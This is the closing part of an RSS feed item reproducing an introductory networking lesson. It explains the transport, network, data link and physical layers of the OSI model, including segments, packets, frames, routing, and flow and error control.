<h2 class="wp-block-heading" id="layer-4---transport-layer">Layer 4 &#8211; Transport Layer<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#layer-4---transport-layer"></a></h2>


<figure class="wp-block-image"></figure>


<ul class="wp-block-list">
<li>Layer 4 is responsible for end-to-end communication between the two devices. This includes taking data from the session layer and breaking it up into chunks called segments before sending it to layer 3. The transport layer on the receiving device is responsible for reassembling the segments into data the session layer can consume.</li>


<li>The transport layer is also responsible for flow control and error control. Flow control determines an optimal speed of transmission to ensure that a sender with a fast connection doesn???t overwhelm a receiver with a slow connection. The transport layer performs error control on the receiving end by ensuring that the data received is complete, and requesting a retransmission if it isn???t.</li>
</ul>


<h2 class="wp-block-heading" id="layer-3---network-layer">Layer 3 &#8211; Network Layer<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#layer-3---network-layer"></a></h2>


<figure class="wp-block-image"></figure>


<ul class="wp-block-list">
<li>The network layer is responsible for facilitating data transfer between two different networks. If the two devices communicating are on the same network, then the network layer is unnecessary. The network layer breaks up segments from the transport layer into smaller units, called packets, on the sender???s device, and reassembling these packets on the receiving device. The network layer also finds the best physical path for the data to reach its destination; this is known as routing.</li>
</ul>


<h2 class="wp-block-heading" id="layer-2---data-link-layer">Layer 2 &#8211; Data Link Layer<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#layer-2---data-link-layer"></a></h2>


<figure class="wp-block-image"></figure>


<ul class="wp-block-list">
<li>The data link layer is very similar to the network layer, except the data link layer facilitates data transfer between two devices on the SAME network. The data link layer takes packets from the network layer and breaks them into smaller pieces called frames. Like the network layer, the data link layer is also responsible for flow control and error control in intra-network communication (The transport layer only does flow control and error control for inter-network communications).</li>
</ul>


<h2 class="wp-block-heading" id="layer-1---physical-layer">Layer 1 &#8211; Physical Layer<a href="http://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/0-Core-Knowledge/0-Networking-101.html#layer-1---physical-layer"></a></h2>


<figure class="wp-block-image"></figure>


<ul class="wp-block-list">
<li>This layer includes the physical equipment involved in the data transfer, such as the cables and switches. This is also the layer where the data gets converted into a bit stream, which is a string of 1s and 0s. The physical layer of both devices must also agree on a signal convention so that the 1s can be distinguished from the 0s on both devices.</li>
</ul>
]]></content:encoded>
					
		
		
			</item>
	</channel>
</rss>
